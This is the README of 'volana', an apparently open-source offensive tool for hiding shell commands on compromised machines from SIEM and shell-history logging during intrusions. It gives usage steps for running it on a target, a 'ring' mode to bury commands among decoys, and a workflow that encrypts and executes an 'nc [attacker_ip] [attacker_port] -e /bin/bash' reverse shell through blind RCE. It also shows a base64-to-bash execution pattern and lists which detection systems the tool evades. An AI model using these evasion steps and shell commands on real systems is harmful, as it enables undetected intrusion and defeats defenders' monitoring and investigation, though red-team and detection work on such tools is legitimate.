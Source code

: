 
<div align="center">
 <h1> volana 🌙</h1>  
 <h4> Shell command obfuscation to avoid SIEM detection </h4>
 <p> During pentest, an important aspect is to be stealth. For this reason you should clear your tracks after your passage. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the cleaning part alone useless.<br><br><code>volana</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, volana execute for you).</p>

  <p><strong><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🌚<sub>(hide from)</sub></a>; <a href="#visible-for">☀️<sub>(detected by)</sub></a> } </code></strong></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawned it, you are a hacker, it's your job !). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/volana/releases/latest/download/volana

## Execute it
./volana

## You are now under the radar
volana » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
volana » [command]
```

Keyword for volana console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit volana console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `volana` with embedded encryption key.

**On attacker machine**
```shell
## ATTACKER MACHINE

## Build volana with encryption key
make build.volana-with-enc

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
volana encrypt "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./volana decrypt [encrypted_command]
## Now you have a bindshell shell, spawn it to make it interactive and use volana normally)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against system that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

## Detection

Keep in mind that `volana` is not a miracle that will make you totally invisible. It aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.


### Hide from

Only the `volana` launch command line will be catched


* Detection systems that are based on history command output
* Detection systems that are based on historic files
  * `.bashrc`,`zshrc`, `bash_history` etc ..

### Visible for

* Detection systems that have alert for unknown command (volana one)
* Detection systems that are based on keylogger
  * Easy to avoid: copy/past commands
  * Not a common case
